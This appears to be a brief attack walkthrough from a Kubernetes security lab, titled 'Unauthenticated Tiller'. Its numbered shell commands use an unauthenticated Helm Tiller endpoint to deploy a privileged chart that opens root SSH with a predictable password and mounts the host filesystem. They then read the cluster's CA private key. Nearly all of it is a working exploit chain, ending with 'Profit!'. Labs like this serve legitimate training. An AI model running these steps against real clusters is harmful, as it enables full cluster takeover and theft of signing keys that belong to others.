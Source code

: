 # Unauthenticated Tiller

1. `helm --host [CLUSTERIP]:[NodePort] version` - Will prove we have access when the server replies.
2. `helm --host [CLUSTERIP]:[NodePort] ls` - will show there are no charts currently deployed.
3. `helm --host [CLUSTERIP]:[NodePort] install /charts/privsshchart-0.1.0.tgz` - Will deploy a chart which runs a privileged container in the cluster and opens SSH with a predictable username/password.  This should deploy the SSH service to 31337/TCP.  This pod also mounts the underlying root filesystem under `/host` on the cluster.
4. `ssh -p 31337 root@[CLUSTERIP]`
5. `cat /host/etc/kubernetes/pki/ca.key`
6. Profit!